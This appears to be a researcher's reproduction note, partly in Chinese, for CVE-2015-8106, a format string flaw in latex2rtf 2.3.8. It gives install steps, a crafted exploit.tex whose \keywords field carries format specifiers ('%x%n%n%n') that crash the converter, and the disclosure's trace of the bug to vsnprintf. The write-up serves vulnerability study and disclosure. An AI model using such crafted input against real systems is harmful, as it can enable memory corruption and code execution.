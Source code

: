 # CVE/EDB ID

CVE-2015-8106

## Experiment Environment

实验环境：Debian 9.13

软件版本：latex2rtf 2.3.8

## INSTALL & Configuration

[LaTeX to RTF converter - Browse /latex2rtf-unix/2.3.8 at SourceForge.net](https://sourceforge.net/projects/latex2rtf/files/latex2rtf-unix/2.3.8/)

解压tar包之后，使用Makefile进行安装即可

## Problems in Installation & Configuration

## How to trigger vulnerability

编写 https://seclists.org/oss-sec/2015/q4/283中 提供的exploit.tex，如下所示：

```
"exploit.tex"
========================
\documentclass{article}
\begin{document}
\title{Exploitable}
\author{Jong-Gwon Kim}
\keywords{%x\%n\%n\%n}
\end{document}
=========================
```

其中，\keywords这一行，由于latex中符号%的注释作用，会使得第一个%之后的字符全部被忽略，因此应被修改为：`\keywords{\%x\%n\%n\%n}`

执行命令 latex2rtf exploit.tex 后，触发段错误

## PoCs

[CVE-2015-8106 : Format string vulnerability in the CmdKeywords function in funct1.c in latex2rtf before 2.3.10 allows remote attackers t (cvedetails.com)](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2015-8106)

[oss-security - CVE-2015-8106 - latex2rtf v2.3.8 format string vulnerability (openwall.com)](https://www.openwall.com/lists/oss-security/2015/11/16/3)

## Vulnerability Details & Patch

```
When the user runs latex2rtf with malicious crafted tex file, an ``attacker can execute arbitrary code.
The function CmdKeywords processes the \keywords command in tex file.
The variable `keywords' in the function CmdKeywords may hold a malicious ``input string, which can be used as a format argument of vsnprintf.
-- Step 1. (funct1.c 1789 line)

1789        char *keywords = getBraceParam();
For instance, the variable keywords will point to the string “MALICIOUS” ``when a text line "\keywords{MALICIOUS}” exists in an input tex file.
-- Step 2. (funct1.c 1798 line)

1798    fprintRTF(keywords);
fprintfRTF() is called in line 1798, and the parameter is used as a ``format string, which can be malicious, as we described in step 1.
-- Step 3. (main.c 873 line)
858    void fprintRTF(char *format, ...){
      ...
873    vsnprintf(buffer, 1024, format, apf);
      ...
The value of format, which may be malicious, is used as an argument of ``vsnprintf in line 873, therefore arbitrary code can be executed.
```

## References

https://seclists.org/oss-sec/2015/q4/283
